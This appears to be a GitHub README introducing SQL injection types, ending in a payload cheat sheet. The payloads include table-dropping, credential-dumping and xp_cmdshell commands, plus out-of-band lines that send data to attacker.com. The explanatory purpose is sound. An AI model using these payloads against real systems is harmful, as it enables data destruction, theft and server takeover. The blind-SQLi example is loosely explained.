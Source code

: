 <p align="center"><img align="center" width="300" height="300" src="./assets/SQL-Injection.gif"/></p>

# SQL Injection
SQL injection is a security vulnerability in which the attacker is able to view the data in the database. They can even delete or modify the data. We also have a few types of SQL Injection attack formats.

<code> You can learn more here:
https://owasp.org/www-community/attacks/SQL_Injection</code>

## SQL In-Band or SQLi
This attack occurs when the attacker uses the same communication channel to carry out attacks and obtain responses. An example of this is **error-based SQLi**, which triggers an error message when trying to use an SQL payload. The other format is **UNION-based SQLi**, in which using the SQL UNION database operator results in multiple SELECT statements in just one response.

**Example**: 
```sql
 UNION SELECT 1
```

## Blind SQLi
This is the type of SQL injection attack that queries the database and returns true or false.

**Example**
```sql
www.target.com/accounts.php?id=1

SELECT * FROM accounts WHERE ID = 1
```
## Out-of-Band SQL
When an attacker manages to manipulate the data query through hacking and transmit it to a server controlled by the attacker.
```sql
select * from target
into OUTFILE '\\My Malicious Server  IP'
```
## Payloads
Some examples of sql injection payloads
```sql
'

''

--

'1'='1'

' OR '1'='1

" OR "" = "

' OR 1=1 LIMIT 1 --

; DROP TABLE users; --

1; DROP TABLE users; --

'; SELECT @@VERSION --

1 UNION SELECT 1,2,3,4 --

' UNION SELECT username, password FROM users --

'; BEGIN TRANSACTION; UPDATE users SET balance=balance-100 WHERE username='attacker'; COMMIT; --

AND SLEEP(5)--

'; EXEC xp_cmdshell('dir') --

SELECT LOAD_FILE('\\\\attacker.com\\log.txt')
```
